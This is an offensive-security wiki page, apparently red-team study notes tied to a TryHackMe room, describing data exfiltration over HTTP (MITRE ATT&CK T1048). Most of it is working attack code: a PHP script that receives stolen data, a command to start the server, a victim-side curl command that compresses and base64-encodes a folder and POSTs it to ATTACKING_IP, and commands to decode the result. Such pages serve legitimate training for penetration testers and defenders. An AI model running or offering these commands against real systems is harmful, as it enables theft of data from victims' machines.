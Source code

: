 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Over HTTP(s)

## Theory

Exfiltration Over Alternative Protocol can be done using various common operating system utilities such as Net/SMB or FTP. On macOS and Linux curl may be used to invoke protocols such as HTTP/S

{% hint style="danger" %}
We can also use [HTTP(S) Tunneling](../pivoting/http-tunneling.md) as a good [exfiltration](./) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Curl" %}
We will host a simple PHP server in order to retrieve encoded POST data.

First write the following code in your `index.php` file

```php
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Second, start the PHP web-server in the same directory

```bash
# Start server on port 80
v4resk㉿kali$ php -S 0.0.0.0:80
```

On the victim computer, you can now send data through POST request. It will be saved at `/tmp/http.bs64`

```bash
# Linux
# Compress folder, base64, and send
user@victime$ curl --data "file=$(tar zcf - Bashed | base64)" http://ATTACKING_IP/
```

On attacking machine, we can decode now decode it:

```bash
# Decode compressed folders
v4resk㉿kali$ sed -i 's/ /+/g' /tmp/http.bs64
v4resk㉿kali$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
